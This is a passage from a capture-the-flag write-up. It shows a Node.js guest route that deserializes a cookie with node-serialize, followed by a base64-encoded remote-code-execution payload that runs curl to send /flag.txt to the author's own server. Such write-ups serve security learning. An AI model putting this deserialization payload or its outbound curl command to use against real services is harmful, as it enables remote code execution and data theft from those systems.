 ```http
```

I then search the section in `server.js` that handled the POST request:

```javascript
app.post('/guest', function(req, res) {
   if (req.cookies.guest) {
   	var str = new Buffer(req.cookies.guest, 'base64').toString();
   	var obj = serialize.unserialize(str);
   	if (obj.username) {
     	res.send("Hello " + escape(obj.username) + ". This page is currently under maintenance for Guest users. Please go back to the login page");
   }
 } else {
	 var username = req.body.username 
	 var country = req.body.country 
	 var city = req.body.city
	 var serialized_info = `{"username":"${username}","country":"${country}","city":"${city}"}`
     var encoded_data = new Buffer(serialized_info).toString('base64');
	 res.cookie('guest', encoded_data, {
       maxAge: 900000,
       httpOnly: true
     });
 }
 res.send("Hello!");
});
```

Based on the code above, the `unserialize` function, which was my target, receives the unsanitized base64-decoded value from the "guest" cookie. I also knew that the payload has to be sent with the cookie. I then had to read more on the vulnerability and how to generate the exploit.

## The vulnerability

So I checked again on the URL referenced by the advisory: [Exploiting Node.js deserialization bug for Remote Code Execution](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

At the time of the CTF, I already had experience with exploiting Insecure Deserialization vulnerabilities (with Java and PHP applications), which mainly works due to unsanitized input prior to deserialization. For this research, I only needed the payload to pass as the `guest` cookie to the `unserialize()` function. After reading the blog post, I came up with the following payload, which includes a simple curl command that sends the flag file's contents within a GET request to a server I control:

The URL encoding was just necessary to ensure any special characters in the flag file would not cause problems to the output.

```javascript
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'curl -G --data-urlencode $(cat /flag.txt) http://MY-IP\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
console.log(new Buffer(payload).toString('base64'));
```
